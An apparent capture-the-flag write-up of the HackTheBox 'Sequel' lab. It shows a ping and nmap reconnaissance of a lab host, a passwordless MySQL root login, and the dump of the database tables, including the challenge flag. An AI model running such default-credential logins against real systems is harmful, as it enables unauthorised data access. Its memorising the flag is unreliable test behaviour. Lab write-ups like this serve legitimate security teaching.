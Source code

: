 ```yaml
---
title: "HackTheBox - Sequel"
date: 2023-12-27 08:30:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, databases, mysql]
image:
    path: /assets/img/htb/Sequel.png
    alt: Sequel - HackTheBox
---
```


[**Sequel**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **MySQL (My Sctuctured Query Language)**.

## Introduction

- Connect **Sequel** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.95.232

PING 10.129.95.232 (10.129.95.232) 56(84) bytes of data.
64 bytes from 10.129.95.232: icmp_seq=1 ttl=63 time=425 ms
64 bytes from 10.129.95.232: icmp_seq=2 ttl=63 time=257 ms
64 bytes from 10.129.95.232: icmp_seq=3 ttl=63 time=266 ms
64 bytes from 10.129.95.232: icmp_seq=4 ttl=63 time=504 ms

--- 10.129.95.232 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 256.704/362.845/503.874/105.416 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap 10.129.95.232 -sCV -T4

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 08:31 WIB
Nmap scan report for JSN.JaringanKU (10.129.95.232)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
1862/tcp filtered mysql-cm-agent
3306/tcp open     mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsCompression, FoundRows, ConnectWithDatabase, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: '\c[~+VOh@Cq1=~'D]*X\'
|_  Auth Plugin Name: mysql_native_password
3371/tcp filtered satvid-datalnk

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.68 seconds
```

You can see, there are 3 results but the only one that opens is 3306/tcp which is the mysql service.

## Foothold

To run `mysql`, make sure you have the service, if you don't have it, download it. To ask for help use `--help`.

### Mysql

Use `-h` to connect to the host, and `-u` to log in using the username. Here we use the default user, namely `root` and we do not need to enter a password.

```
show databases; -> to display all databases.
use database; -> to use a database.
show tables; -> to display tables in the database.
select * from table; -> to display all the contents of the table.
```

```bash
mysql -h 10.129.95.232 -u root

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,244 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,233 sec)

MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,232 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,589 sec)
```
